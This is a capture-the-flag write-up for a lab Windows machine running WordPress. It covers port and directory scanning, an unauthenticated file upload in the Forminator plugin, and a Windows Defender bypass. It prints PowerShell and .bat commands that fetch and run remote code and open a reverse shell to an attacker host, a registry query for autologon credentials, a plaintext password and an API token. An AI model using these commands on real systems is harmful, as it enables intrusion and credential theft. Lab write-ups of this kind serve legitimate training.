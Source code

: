 # AVenger



## Ports Scanning

For this machine we have to use a more stealth command due AV enable.

```bash
nmap -sC -sV --min-rate 1000 10.10.57.181 -oN port_scan.txt

Nmap scan report for 10.10.57.181
Host is up (0.042s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 5.5.5-10.4.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.28-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, FoundRows, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Nw207dp*|Vws\QbyX-w1
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=gift
| Not valid before: 2025-07-23T20:24:16
|_Not valid after:  2026-01-22T20:24:16
| rdp-ntlm-info: 
|   Target_Name: GIFT
|   NetBIOS_Domain_Name: GIFT
|   NetBIOS_Computer_Name: GIFT
|   DNS_Domain_Name: gift
|   DNS_Computer_Name: gift
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-24T20:25:04+00:00
|_ssl-date: 2025-07-24T20:25:13+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>



If we try to enter in the `gift/` directory, the domain will change in this:

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

add this domain to `/etc/hosts` to view the site.

Try to enumerate with dir/file discovering.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://avenger.tryhackme/gift/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/admin                (Status: 302) [Size: 0] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-content           (Status: 301) [Size: 357] [--> http://avenger.tryhackme/gift/wp-content/]
/wp-admin             (Status: 301) [Size: 355] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-includes          (Status: 301) [Size: 358] [--> http://avenger.tryhackme/gift/wp-includes/]
```
{% endcode %}

### Wordpress Login Brute Forcing

These route bring you to `wp-login` portal.

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Checking with wafw00f tool we can view that the site not has a WAF enabled.

```bash
wafw00f http://avenger.tryhackme/gift/wp-login.php

[*] Checking http://avenger.tryhackme/gift/wp-login.php
[+] Generic Detection results:
[-] No WAF detected by the generic detection # <--
[~] Number of requests: 7
```

Trying to enter with a admin:admin credentials we can notice that a message appair, tell us that the user admin exists.

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

So, knowing that the site not has WAF enabled and we have already know a user valid, we could do a brute force to guessing the password of admin user.

Nothing found :(

### WPScan

Try to run e WPScan to detect some vulnerability.

{% code overflow="wrap" %}
```bash
wpscan --url http://avenger.tryhackme/gift/ --api-token eVAkNLx5URNVNRP2xj1Uxon9CWFslz5Aas8bWb5jcO8 --random-user-agent -v
```
{% endcode %}

From this we can notice that the File Upload is managed by Forminator Plugin. That reading from readme of the plugin is not updated.

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Searching online there are some vulnerabilities, but in particulary there is a Unauthentication File Upload and RCE.

{% embed url="https://www.exploit-db.com/exploits/51664" %}

If we upload a file in the form we can see this message.

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

This make us think that any files will upload a person will open it. So, we can upload a file to establish a revshell.

### Forminator Plugin RCE - AV Bypass

We can consider that the Windows Server machine has AV Windows Defender enabled.

And if the upload a simple file with a rev shell, this won't works.

Reading this article, we have a method to bypass the AV.

{% embed url="https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1" %}

{% content-ref url="../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md" %}
[av-bypass-shell.md](../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md)
{% endcontent-ref %}

Follow the above pages we obtained the reverse shell bypassing Windows Defender.

Create the encoded RevShell to host in a Http server.&#x20;

```bash
LHOST=10.23.52.142
LPORT=9009
rshell=shell.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

```bash
python3 -m http.server 80
```

Now create the .bat file that will be open by a support user.

```bash
LHOST=10.23.52.142
LPORT_web=80
rshell=shell-9009.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat 
```

Lastly start a listener

```bash
rlwrap nc -nlvp 9009
```

Upload the file and when it will be open we will obtain a RevShell.

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag.

```powershell
more C:\Users\hugo\Desktop\user.txt
```



## Privilege Escalation

During the local windows enumeration, we noticed that the user hugo is in the Administrator group

```powershell
net localgroup administrators

Members
------------------------
Administrator
hugo
```

Check if there are some saved credentials in the Auto logon reg keys.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

We found hugo's credential . With this creds we can logon via RDP and run Powershell as administrator and get the root flag.

```bash
xfreerdp3 /v:10.10.26.184 /u:hugo /p:SurpriseMF123!
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



